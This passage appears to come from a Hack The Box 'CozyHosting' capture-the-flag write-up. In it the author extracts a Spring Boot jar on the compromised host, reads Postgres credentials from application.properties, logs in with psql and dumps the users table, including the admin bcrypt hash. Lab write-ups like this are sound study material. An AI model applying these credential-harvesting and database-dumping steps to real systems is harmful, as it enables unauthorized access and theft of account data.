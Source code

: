 Once it downloaded the cloudhosting-0.0.1.jar file into my system, I extracted the files by following the below command.

`jar xf cloudhosting-0.0.1.jar`

### Method 2: Extract the Jar file

Once you get the shell, just extract the file using the unzip command on the targeted machine.

`unzip -d /tmp/app cloudhosting-0.0.1.jar`

The above command extracts the jar compressed file into the `/tmp/app` directory.

---

I demonstrated two methods of extracting the jar file here. Because the method I used is method 1, and that is a bit long and complicated. But after I saw the official HTB write-up (Author: Commandercool) for this challenge, I got the idea that method 2 could be very easy to extract the jar file from within the victim machine.

```
cat BOOT-INF/classes/application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Once it was extracted, I found a file that contained the Postgres database's username and password. The username is `postgres` and the password is `Vg&nvzAQ7XxR`.

After getting the username and password, I searched on the internet for how to connect with the Progress database and found a [Postgres cheatsheet](https://www.timescale.com/learn/postgres-cheat-sheet/databases) and [HackTrick's postgres enumeration methods](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql).

I used the above resources to get database access and found the admin user's password hash.

```
psql -h 127.0.0.1 -U postgres

/l

 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres

/d

public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres

SELECT * FROM users;

 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```